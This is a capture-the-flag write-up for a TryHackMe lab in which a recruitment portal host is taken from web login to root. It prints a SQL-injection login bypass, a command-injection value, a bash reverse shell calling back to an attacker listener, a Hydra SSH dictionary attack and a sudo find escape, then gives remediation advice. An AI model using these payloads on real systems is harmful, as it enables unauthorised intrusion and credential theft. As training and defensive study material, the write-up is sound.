# Operation Promotion Write-up

**Platform**: TryHackMe <br>
**Room**: Operation Promotion (https://tryhackme.com/room/operationpromotion) <br>
**Category**: Network | Web Application <br>
**Target**: Linux <br>
**Techniques**: SQL Injection, Command Injection, Password Cracking, Dictionary Attack, Local Privilege Escalation <br>
**Final Goal**: Root Access

## Executive Summary

This assessment evaluated the security of the **Operation Promotion** target, a Linux host running a public-facing recruitment portal alongside SMB and SSH services. The objective was to identify vulnerabilities that could be chained together to obtain initial access and ultimately escalate privileges to root.

The assessment identified several vulnerabilities, including SQL Injection, command injection, exposed internal functionality, weak password practices, and an overly permissive `sudo` configuration. These issues could be combined to bypass authentication, obtain command execution as the web server, recover valid user credentials, gain SSH access, and ultimately escalate privileges to the root account.

The assessment highlights the importance of securing authentication mechanisms, validating user-controlled input, protecting sensitive configuration files, enforcing strong password policies, and restricting privileged command execution. Addressing these vulnerabilities would significantly reduce the likelihood of an attacker progressing from a publicly accessible application to full system compromise.

## Overview

Operation Promotion simulates a penetration testing engagement against a recruitment company hosting a public-facing web application. The objective is to compromise the target, obtain the available flags, and demonstrate the progression from an unauthorised web application user to root access.

The room demonstrates a realistic attack chain involving:

- Service and web application enumeration
- Anonymous SMB access
- SQL Injection authentication bypass
- User enumeration
- Command Injection
- Remote shell access
- Information disclosure
- Password hash analysis
- OSINT-assisted password discovery
- Dictionary attacks
- SSH access
- Sudo misconfiguration abuse

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.112.172.62
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports rather than the default top 1,000.

The scan identifies several externally accessible services.

| Port | Service | Observation |
|------|---------|-------------|
| 22 | SSH | Provides a potential method of obtaining a stable shell if valid credentials are discovered. |
| 80 | HTTP | Hosts the recruitment portal and represents the primary attack surface. |
| 445 | SMB | Can provide access to shared files and additional information if anonymous or guest access is permitted. |



Since SMB access is available, the service is enumerated before moving to the web application.

## SMB Enumeration

The SMB service is enumerated using NetExec:

```bash
nxc smb 10.112.172.62 -u guest -p '' --shares
```

The command authenticates to the SMB service using the `guest` account with an empty password and enumerates the available shares.



A public share is identified, providing an opportunity to check whether files can be accessed without valid credentials. The share is accessed using `smbclient`:

```bash
smbclient //10.112.172.62/public -U 'Guest' -N
```

The `-U` option specifies the username, while `-N` instructs smbclient not to request a password.

The share contains a `README.txt` file.



The contents of the file indicate that there is currently nothing useful in the share. The assessment therefore continues with enumeration of the HTTP service.

## Web Application Enumeration

The HTTP service is enumerated using Gobuster to identify directories and files that may not be directly linked from the application's interface.

```bash
gobuster dir -u "http://10.112.172.62" \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-r \
-x .php,.js,.html,.py,php.bak,.git,.env,.txt
```

The scan identifies several interesting endpoints, including:

- `/index.php`
- `/admin`
- `/config`
- `/robots.txt`



Directory enumeration is useful during a web application assessment because resources that are not linked from the main interface may expose administrative functionality, configuration files or other information that expands the attack surface.

Navigating to the main website leads to the `/index.php` endpoint. The page itself does not expose much functionality, so the previously discovered `/robots.txt` file is examined.



The `robots.txt` file indicates that the `/admin/` directory should be disallowed. However, the Gobuster results showed that the `/admin` endpoint returned a `200` status code rather than `403 Forbidden`.

This discrepancy makes the administrative endpoint worth investigating directly.

Navigating to `/admin` presents a login page.

## SQL Injection Bypass

SQL Injection is a vulnerability that occurs when user-controlled input is incorporated into SQL queries without appropriate parameterisation or sanitisation. In an authentication context, an attacker may manipulate the query logic so that the application authenticates without verifying a legitimate username and password.

The login form is tested for SQL Injection using the following payload in the username field:

```text
' OR '1'='1'--+
```

Any password can be supplied.



The payload successfully bypasses the authentication mechanism and grants access to the administrator dashboard.



The successful authentication confirms that the login functionality is vulnerable to SQL Injection. The dashboard can now be examined for additional functionality and information that may assist with further access.

## User Enumeration

The administrator dashboard provides a **User Lookup** functionality. Changing the user ID allows different user records to be queried.

The identifiers are tested sequentially, revealing that user IDs begin at `1` and increment by one for each account. User ID `1` corresponds to the administrator account. Continuing the enumeration until ID `7` reveals the `sysmaint` account. The notes associated with this account disclose the existence of an internal system maintenance endpoint:

```text
/admin/sysmaint-checks/ping.php
```



This endpoint is examined next to determine whether the exposed functionality can be abused.

## Command Injection

Navigating to the discovered endpoint displays instructions for using the ping functionality:

```text
Usage: /admin/sysmaint-checks/ping.php?host=<target>
```



The endpoint appears to accept a user-controlled host value and execute a system `ping` command against it. A legitimate request is first tested using the loopback address `127.0.0.1`. The application successfully returns the expected response.



Since the `host` parameter is passed to a system command, it is tested for **Command Injection**.

Command Injection occurs when attacker-controlled input is incorporated into an operating system command without adequate validation, allowing additional commands to be executed with the privileges of the vulnerable process.

The following payload is supplied:

```text
127.0.0.1;id
```

The semicolon terminates the original command and causes the `id` command to execute separately.



The response reveals that the injected command executes as the `www-data` user.

This confirms that arbitrary operating system commands can be executed through the `host` parameter. The next objective is therefore to obtain an interactive shell with the same privileges.

## Obtaining a Reverse Shell

Since command injection has been confirmed and commands execute as `www-data`, the next step is to obtain an interactive reverse shell.

A reverse shell is a connection initiated from the compromised host back to an attacker-controlled listener. This provides an interactive command-line session on the target instead of executing individual commands through the vulnerable web application.

A Netcat listener is started on the AttackBox:

```bash
sudo nc -lvnp 4444
```

The following payload is then supplied through the `host` parameter:

```text
127.0.0.1;bash+-c+'bash+-i+>%26+/dev/tcp/10.112.93.231/4444+0>%261'
```

The IP address needs to be replaced with the AttackBox IP address.

The payload executes a Bash reverse shell and redirects the target's input and output to the AttackBox over TCP port `4444`. The `+` characters are used in place of spaces so that the payload can be submitted through the HTTP parameter.

The webpage continues loading after the request is submitted, eventually displaying a message indicating that the process is running in the background.

A connection is received by the Netcat listener, providing a shell on the target as `www-data`. The reverse shell is then stabilised to provide a more functional terminal.

1. Run `stty size` in a new AttackBox terminal and note the returned number of rows and columns.
2. In the reverse shell, run `python3 -c 'import pty; pty.spawn("/bin/bash")'`
3. Set the terminal type: `export TERM=xterm`.
4. Background the shell using the `CTRL + Z` key combination.
5. Bring the session back to the foreground and configure the terminal `stty raw -echo; fg`.
6. Set the terminal dimensions using the values obtained from `stty size`: `stty rows x cols y`, where `x` represents the number of rows and `y` represents the number of columns.



The shell now provides a more functional interactive environment for further enumeration.

## Configuration Disclosure

With a shell as `www-data`, the previously identified `/config` endpoint can be explored.

The directory contains a `db.conf` file.



Reviewing the file reveals information about the `jford` user, including a password hash.

An initial attempt is made to crack the hash using the `rockyou.txt` wordlist. However, the password is not recovered.

Since the conventional wordlist attack was unsuccessful, an alternative approach is required to identify a possible password pattern.

---

## OSINT-Assisted Password Discovery

The public-facing `/index.php` endpoint is revisited to look for information that could provide clues about the password used by `jford`.

OSINT, or Open-Source Intelligence, involves collecting and analysing publicly available information to identify useful information about a target. In this case, information exposed by the public website can be used to construct a targeted password wordlist.



The page contains the expression **`Spring 2026`**, which provides a potential basis for constructing a custom wordlist.

The string `spring2026` is therefore saved as the base value:

```bash
echo "spring2026" > basestring.txt
```

Hashcat can then be used with its `dive.rule` rule set to generate password variations from the base string:

```bash
hashcat --stdout basestring.txt -r /usr/local/hashcat/rules/dive.rule > wordlist.txt
```

The `--stdout` option instructs Hashcat to output the generated candidates rather than attempt to crack a hash. The `-r` option applies the specified rule file to the input wordlist. The resulting password candidates are written to `wordlist.txt`.

The generated wordlist is then used with Hydra to perform a dictionary attack against the SSH service using the `jford` username:

```bash
hydra -l jford -P wordlist.txt 10.112.172.62 ssh
```

A dictionary attack attempts to authenticate against a service using a supplied list of potential passwords. In this case, the custom wordlist is based on information identified on the public-facing website rather than relying solely on a generic password list.



Hydra successfully identifies valid credentials for the `jford` account.

## SSH Access

The recovered credentials can now be used to authenticate to the target through SSH.

```bash
ssh jford@10.112.172.62
```

Successful authentication provides an SSH session as `jford`.

The `user.txt` file is present in the directory where the session is established.



The initial access objective has therefore been achieved. The next step is to determine whether the `jford` account has any permissions that can be abused to escalate privileges.

## Sudo Enumeration

The `sudo -l` command is used to determine which commands the current user is permitted to execute through `sudo`:

```bash
sudo -l
```

The output shows that `jford` can execute `/usr/bin/find` as `root`.



This represents a local privilege escalation opportunity because the `find` binary can be used to execute commands when invoked with elevated privileges.

Sudo misconfiguration occurs when a user is granted excessive permissions through `sudo`, allowing privileged commands to be executed beyond what is required for their role. If the permitted binary provides a mechanism for executing arbitrary commands, the configuration can result in privilege escalation.

## Privilege Escalation with `find`

The `find` binary is checked for known privilege escalation techniques using [GTFO bins](https://gtfobins.org/gtfobins/find/#shell).

GTFOBins provides a reference of legitimate Unix binaries that can be abused in security contexts when they are available with elevated privileges or under restricted environments.



The identified technique allows an interactive shell to be spawned through `find`:

```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

The command executes `/bin/sh` through `find` with `sudo`, causing the shell to inherit the elevated `root` privileges. The command successfully provides a root shell.

The final flag is located in `/root/flag.txt`.



Reading the file confirms successful privilege escalation to `root` and completion of the attack chain.

# Conclusion

This assessment demonstrated how multiple vulnerabilities within the target could be chained together to achieve full system compromise.

The attack began with service and web application enumeration, which identified the publicly accessible administration functionality. A SQL Injection vulnerability in the login mechanism allowed authentication to be bypassed and provided access to the administrator dashboard. User enumeration then exposed the location of an internal system maintenance page, where insufficient input validation allowed command injection and ultimately provided a reverse shell as `www-data`.

Further enumeration of the exposed configuration files revealed a password hash associated with the `jford` account. Although the hash could not be recovered using the `rockyou.txt` wordlist, information identified on the public-facing website provided a suitable base string for generating a targeted wordlist. This enabled the recovery of valid SSH credentials and access to the target as `jford`.

Finally, `sudo` enumeration revealed that `jford` could execute `/usr/bin/find` with root privileges. Abusing the command execution functionality of `find` provided an interactive root shell, completing the attack chain from unauthorised web application access to full system compromise.

The assessment highlights the importance of addressing vulnerabilities as part of the wider attack surface rather than in isolation. Authentication weaknesses, command injection, exposed configuration data, weak password practices, and excessive sudo permissions each contributed to the progression of the attack.

# Remediation Recommendations

The compromise was achieved by chaining several independent vulnerabilities across the web application and underlying Linux system. The following recommendations would reduce the likelihood of similar attacks.

| Finding | Recommendation |
|---------|----------------|
| **SQL Injection** | Replace dynamically constructed SQL queries with parameterised queries or prepared statements. User-supplied input should never be incorporated directly into SQL statements. |
| **Command Injection** | Avoid passing user-controlled input directly to operating system commands. Where system utilities are required, validate input against a strict allowlist and use safe APIs or argument-based execution mechanisms. |
| **Exposed Administrative Functionality** | Restrict administrative and maintenance endpoints to authorised users and avoid exposing internal functionality through publicly accessible paths. |
| **Information Disclosure** | Review configuration files and application resources to ensure sensitive information, including credential material, is not unnecessarily exposed through the web application. |
| **Weak Password Practices** | Enforce strong, unique passwords and avoid password patterns based on publicly available information. Passwords should be securely hashed using a modern password hashing algorithm. |
| **SSH Access** | Restrict SSH access to authorised users and networks where possible, and consider additional authentication controls such as key-based authentication and multi-factor authentication. |
| **Sudo Misconfiguration** | Apply the principle of least privilege when configuring `sudo`. Users should only be permitted to execute commands that are strictly required for their role, and binaries capable of spawning arbitrary commands should not be granted unrestricted root privileges. |

Implementing these measures would help prevent the individual weaknesses from being chained into a complete path to root access and would significantly reduce the attack surface of the system.